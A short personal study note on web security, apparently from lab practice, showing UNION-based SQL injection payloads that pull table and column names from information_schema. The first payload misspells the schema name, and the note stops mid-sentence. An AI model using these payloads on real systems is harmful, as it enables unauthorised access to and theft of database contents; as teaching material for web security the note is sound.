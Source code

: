 This output shows the columns in the specified table and the data type of each column.

> [!important] Getting table names and column names from information_schema 
> SQLi to get table names from information schema:
> ```sql
> 'UNION SELECT NULL,table_name FROM informaton_schema.tables --
> ```
> 
> SQLi to get column names from a specific table in information schema:
> ```sql
> 'UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_zhzrbx' --
> ```
> Note: NULL is used in this example because it suited
> 

#security/web/sql 